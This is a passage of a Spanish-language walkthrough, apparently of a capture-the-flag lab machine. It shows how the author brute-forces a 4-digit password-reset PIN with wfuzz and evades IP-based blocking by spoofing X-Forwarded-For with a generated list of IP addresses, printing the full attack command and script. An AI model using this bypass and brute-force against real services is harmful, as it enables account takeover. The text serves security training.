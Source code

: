 ```bash
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 31 23:47:22 2022 -- 1 IP address (1 host up) scanned in 11.36 seconds
```

Solamente tenía dos puertos abiertos, el `22` no me servía de momento, por lo que mire el servidor web.

![paginaprincipal](https://user-images.githubusercontent.com/69093629/161405890-cecd3381-2d9d-40d3-9ae7-1834867258bb.png)

Parece ser un *login*, probé credenciales por defecto, `admin` `admin` pero no hubo suerte, me reporto un botón de `Forgot Password`.

![passincorrect](https://user-images.githubusercontent.com/69093629/161405918-cd0905fb-f65c-44cc-a06e-f0a552f42cc3.png)

El botón me redirigió a una página en la que se podía apreciar un tipo de panel en el que podía cambiar la contraseña de un usuario existente, probé con el usuario `admin`.

![forgot](https://user-images.githubusercontent.com/69093629/161405995-a3d405f3-aef5-468b-bbfb-72ebef3d19e2.png)

Y sí, existía, pero no tenía el pin correspondiente para poder cambiar la contraseña, intente hacer fuerza bruta con `wfuzz` para averiguar el pin, pero hubo un inconveniente, el pin se compone de 4 dígitos, por lo que cree un rango del 0 al 9999 e hice *fuzzing* al pin por POST añadiendo la cabecera `Cookie` con mi `Cookie` valga la redundancia, el problema residió a la hora de enviar las peticiones desde la misma `IP`, este las bloquea.

![bloqueo](https://user-images.githubusercontent.com/69093629/161406251-1d0c0d50-9c98-420d-92d1-dabdd35a26d2.png)

Esto lo podía evitar enviando la cabecera '`X-Forwarded-For` con un rango de IP's diferentes, para ello cree un pequeño *script* en 'bash' que recorre un rango del 0 al 256 con un bucle anidado.

```bash
#!/bin/bash

for i in {0..256}; do
  for j in {0..256}; do
    echo "10.10.$i.$j"
  done
done
```

Y exporte el *output* de este en un archivo de texto.

![delasprimeras](https://user-images.githubusercontent.com/69093629/161406427-10e5edbf-1e2c-4c7d-8d8e-d7713e5585d4.png)

Hice *fuzzing* en la cabecera `X-Forwarded-For` con el diccionario de `IP's` y el servidor y ya no me bloqueaba, el pin era `9176`.

```bash
$ wfuzz -c --hc=404 -u http://10.10.11.159/api/resettoken -d 'name=admin&pin=FUZZ' -z range,0000-9999 -H 'Cookie: XSRF-TOKEN=eyJpdiI6ImMxd0YwdlMvTTY2RlBOMVFVUkJhUFE9PSIsInZhbHVlIjoiakxXaDMxT3dlRktNaXkreEdsaVRGd25QN3lwTjI0TjhLU0JmSUxJd0R5cG50TTFEbnJycm05SFR5eXFKNUdETDFJR0dwbHAyeUZkU0JQV3dqUUtoUmtLRENRMlhPdCtrNUlrcTdvVlE1ODUwZmhrMXAyOUx4ZVdKbDN1OVl0Q3ciLCJtYWMiOiIyNmZmOWQ2MDdlYjVlMzE3YzRhZTM4ZjdlODk4MTdjOTA1YjY1ZGYwYzNmNzlhZTdiOGM0NDJhMjdjOGI1YWFkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjlyeUNmS0xhRFpOMzhhcEFSV1lVdmc9PSIsInZhbHVlIjoidzJsWTVhWm4wd1pBcWFxVlFOKzN4MTNFM1pSUTJ6blRabVpPeWJVV29Zd1ZIMXJuWGw4cW41Q1o5K1BGNXFGQ2M4V1dmWDE0VlJESWNKT2JWNnBpU0RNeFRqT3YvcjNuRGxxNmdEVkhoOFpIQ2dBOUZzdWRuRzVqVGhwN0FtaGoiLCJtYWMiOiJiNTg0M2E0NzNhYTdjOTIyMGI0NThiM2Q4OTdmNjBmNGMwZTQxMGUzMGZkOWQ4NzM4NWY2NDMwOWZhNzJmZjUwIiwidGFnIjoiIn0%3D' -w ips -H 'X-Forwarded-For: FUZ2Z' -m zip -t 100 --hh=5644
```
